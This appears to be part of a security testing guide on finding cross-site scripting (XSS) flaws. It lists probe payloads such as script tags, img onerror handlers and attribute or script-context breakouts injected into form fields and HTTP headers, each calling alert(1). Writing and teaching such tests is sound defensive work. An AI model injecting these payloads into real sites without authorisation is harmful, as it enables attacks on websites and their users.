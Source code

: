 #### Form Input Tests

Test all input fields in forms for XSS:

```javascript
# Step 1: Identify form fields
<input type="text">           # Text inputs
<input type="search">         # Search boxes
<textarea>                    # Text areas

# Step 2: Test each field with detection payloads
"><img src=x onerror=alert(1)>    # Tests quote escape
'><img src=x onerror=alert(1)>    # Tests single quote escape
javascript:alert(1)                # Tests href attributes

# Step 3: Observe the response
# - Check page source for payload reflection
# - Check if input is encoded
# - Check browser console for errors
```

#### HTTP Header Tests

Test headers that might be reflected in the response:

```javascript
# Step 1: Test common reflected headers
User-Agent: <script>alert(1)</script>
Referer: <script>alert(1)</script>
Cookie: <script>alert(1)</script>

# Step 2: Test custom headers
X-Forwarded-For: <script>alert(1)</script>
X-Forwarded-Host: <script>alert(1)</script>

# Step 3: Check response headers and body
# - Look for header values in page source
# - Check for reflections in error messages
```

#### HTML Context Tests

Test payloads based on where input is reflected:

```javascript
# Step 1: Inside HTML tags
Original: <div>USER_INPUT</div>
Test with: <script>alert(1)</script>
Test with: <img src=x onerror=alert(1)>

# Step 2: Inside HTML attributes
Original: <input value="USER_INPUT">
Test with: "><script>alert(1)</script>
Test with: " autofocus onfocus="alert(1)

# Step 3: Inside script tags
Original: <script>var name = 'USER_INPUT';</script>
Test with: ';alert(1);//
Test with: \';alert(1);//
```
